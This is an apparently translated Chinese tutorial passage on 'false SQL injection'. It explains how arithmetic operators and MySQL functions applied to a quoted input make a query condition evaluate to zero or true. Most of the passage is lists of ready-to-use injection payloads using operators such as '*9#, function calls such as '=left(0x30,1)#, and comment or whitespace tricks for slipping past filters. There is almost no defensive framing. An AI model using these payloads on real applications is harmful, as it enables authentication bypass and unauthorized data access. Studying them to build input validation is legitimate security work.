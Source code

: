 下面是使用算术运算的“假SQL注入”。 如果使用带有''的算术运算的结果为0，攻击将会成功。下面是一个使用算术运算的例子。

```
'*9#
乘法

'/9#
除法

'%9#
求余

'+0#
加法

'-0#
减法

```

关键点在于结果必须小于1。你也可以使用如下语句攻击。

```
'+2+5-7#
'+0+0-0#
'-0-0-0-0-0#
'*9*8*7*6*5#
'/2/3/4#
'%12%34%56%78#
'/**/+/**/0#
'-----0#
'+++0+++++0*0#

```

下一种攻击方法使用的是函数功能。在这篇文章中，我无法向你们展示所有的函数。这个攻击方式并不难，所以你们可以使用函数进行你们想要的真/假SQL攻击。而这种攻击是“真SQL注入”或是“假SQL注入”取决于函数返回后的最后一个操作。

```
'<hex(1)#
'=left(0x30,1)#
'=right(0,1)#
'!=curdate()#
'-reverse(0)#
'=ltrim(0)#
'<abs(1)#
'*round(1,1)#
'&left(0,0)#
'*round(0,1)*round(0,1)#

```

此外，您还可以将空格做为函数名进行攻击。但你只能在某些函数中使用空格。

```
'=upper     (0)#

```
